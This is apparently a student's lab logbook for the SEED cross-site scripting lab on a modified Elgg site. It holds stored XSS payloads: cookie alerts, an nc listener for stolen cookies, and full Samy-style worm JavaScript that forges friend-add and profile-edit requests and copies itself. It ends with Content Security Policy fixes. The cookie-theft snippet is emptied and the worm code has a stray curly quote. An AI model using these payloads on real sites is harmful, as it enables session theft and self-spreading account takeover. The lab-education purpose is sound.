

# Logbook for Lab 05

## Purpose

The purpose of this lab is to explore and analyze ways of performing and exploiting XSS attacks over a modified implementation of the Elgg web application. This application consists of a simplified social media platform where people can add friends, make posts and personalize their own profile. In addition to performing the attacks, the lab also attempts to explain how we can mitigate and protect our applications from the XSS attacks, namely, by configuring Content Security Policies (CSPs) and properly sanitizing inputs.

## Task 1

To perform this task we introduced the following code into Alice's brief description profile field:

```js
<script>alert('XSS');</script>
```


## Task 2

Now instead of just alerting a simple message, let's display the user's cookies with the following malicious code in the Alice's brief description profile field:

```js
<script>alert(document.cookie);</script>
```


## Task 3

Since the previous exploits do not expose the victim to the attacker directly, since the information exposed is of the logged in person, a new evolution of this attack is to start a TCP server listening on a port which is going to receive a GET request from the web app with the victim's cookie as a query parameter. This GET request will be triggered by the following malicious code, which tricks the browser by soliciting an image tag rendering:

```js
<script>document.write(’’);
</script>
```

So we started the server by using the following terminal command: `nc -lknv 5555`:


Afterwards, we introduced the malicious code on Alice's brief description and logged in as another user, Boby:


We searched for Alice and clicked on her profile:


After entering on her profile and executing the malicious code, we received a GET request on our server, exposing Boby's cookies:


## Task 4

On this task we are beginning to simulate the known Samy XSS Worm attack performed on MySpace in 2005. One of the worm's effects was to add the victim as a Samy's friend; however to achieve this we must understand what is the HTTP request responsible for this feature.

Using the HTTP Header Live Firefox add-on, we identified the request:

```
GET http://www.seed-server.com/action/friends/add?friend=..&__elgg_ts=...&__elgg_token=..."
```

Knowing the HTTP request structure, we can exploit this vulnerability with the following malicious code:

```html
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  };
</script>
```

The code will be executed when the victim enter Samy's profile, and when doing so it will invoke a GET Request to add Samy as his friend.


**Question 1**: Lines 1 and 2 are needed due to the nature of the HTTP Request itself, **elgg_ts and **elgg_token are required query parameters used to identify the victim that intends to befriend the attacker.

**Question 2**: Since the exploit is made by the lack of the Editor mode input sanitization, if only the Editor mode was provided, and not the Text mode, the attack would still be launched.

## Task 5

An evolution from the previous attack is to besides adding the attacker as a friend, we can edit the victim's "About me" description field. Similarly to the previous task, we need to discover what is the HTTP Request that is performing these "About me" edits.

The HTTP Request is a POST to this URL "http://www.seed-server.com/action/profile/edit" with the following body content:

```js
"__elgg_token=...&__elgg_ts=...&name=...&description=...";
```


We can exploit this vulnerability with the following malicious code:

```html
<script type="text/javascript">
  window.onload = function () {
    // JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    // and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    // Construct the content of your URL.
    var content =
      token +
      ts +
      userName +
      "&description=" +
      "Samy altered your description." +
      "&accesslevel[description]=2" +
      guid;

    var samyGuid = 59;
    var sendurl = "http://www.seed-server.com/action/profile/edit";

    if (elgg.session.user.guid != samyGuid) {
      // Create and send Ajax request to modify profile
      var Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>
```


**Question 3**: We need Line 1 to avoid overriding our malicious code as soon as we save Samy's profile changes. If we remove the line, the following happens:


## Task 6

In order to make this attack self-propagate and achieve what Samy did to MySpace, we must find a way to copy the malicious code to the victim's About Me field. This way, even if other users visit the victim's profile and not Samy's, they will also get infected and start to spread the XSS Worm.

To achieve this, we resorted to the DOM approach to copy the malicious code, namely:

```js
<script type="text/javascript" id="worm">
window.onload = function(){
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";

  //Put it all together with URI encoding
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

  //Set description field and access level
  var desc = "&description=We are spreading!” + wormCode;
  desc += "&accesslevel[description]=2";

  //Get the name, guid, timestamp, and token
  var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
  var ts    = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
  var name  = "&name=" + elgg.session.user.name;
  var guid  = "&guid=" + elgg.session.user.guid;

  //Set the URL
  var sendposturl = "http://www.seed-server.com/action/profile/edit";
  var sendgeturl= "http://www.seed-server.com/action/friends/add" + "?friend=59" + token + ts;
  var content = token + ts + name + desc + guid;

  //Construct and send the Ajax request
  if (elgg.session.user.guid != 59){
    //modify profile
    var Ajax=null;
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendposturl, true);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
  }

  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendgeturl, true);
  Ajax.send();
 }
 </script>
```




### Elgg's Countermeasure

Although disabled, Elgg's countermeasures mainly consists of sanitizing properly the HTML input, removing dangerous tags and encoding HTML special characters.

## Task 7

However, to protect entirely, input sanitization is not enough, we need to define Content Security Policies in order to validate what content sources are trust-worthy and essentially can be linked with our web application.

After setting up the lab, we visited the three websites and took the following conclusions:

- On www.example32a.com, every area is “Ok” and when we click the button an alert appears.
  
- On www.example32b.com, only area 4 and 6 are “Ok” and the button does not show an alert.
  
- On www.example32c.com, only area 1, 4 and 6 are “Ok” and the button does not show an alert.
  

After inspecting the apache condiguration and the php code, the above made sense since, the example 32a does not define any CSP, the example 32b only allows the example70 site and the example 32c only allows Nonce(111-111-111) and example70.

In order to allow areas 5 and 6 to appear OK, we need to make the following modification on the Content Security Policy for example32b on the Apache Configuration:

```
# Purpose: Setting CSP policies in Apache configuration
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32b.com
    DirectoryIndex index.html
    Header set Content-Security-Policy " \
             default-src 'self'; \
             script-src 'self' *.example70.com *.example60.com \
           "
</VirtualHost>
```


In order to allow areas 1, 2, 4, 5 and 6 to all display OK, we need to modify the PHP code to:

```php
<?php
  $cspheader = "Content-Security-Policy:".
               "default-src 'self';".
               "script-src 'self' 'nonce-111-111-111' *.example70.com *.example60.com 'nonce-222-222-222' ".
               "";
  header($cspheader);
?>

<?php include 'index.html';?>
```


End of Logbook for the Lab05

## Conclusion

This lab provided a hands-on exploration of Cross-Site Scripting (XSS) vulnerabilities and their exploitation within a realistic web application environment. By injecting various payloads, we demonstrated how attackers can trigger unwanted scripts, steal sensitive data such as cookies, and ultimately escalate to automated and self-propagating attacks like the infamous Samy worm. 

Through each progressive task, we saw the real impact of poor input validation and insufficient output sanitization. We observed how even basic XSS can compromise user security, and how more sophisticated attacks can exploit web application logic to compromise other users or modify their data without consent.

The lab also highlighted the limitations of relying solely on client-side defenses or simple input sanitization. We reinforced the importance of implementing strong, defense-in-depth strategies such as proper input validation, output encoding, and especially configuring Content Security Policy (CSP) headers to restrict script execution to trusted sources.

In summary, the exercises underscored that XSS remains one of the most dangerous web application vulnerabilities, and effective protection requires both secure coding practices and robust security policies at the application and server levels.
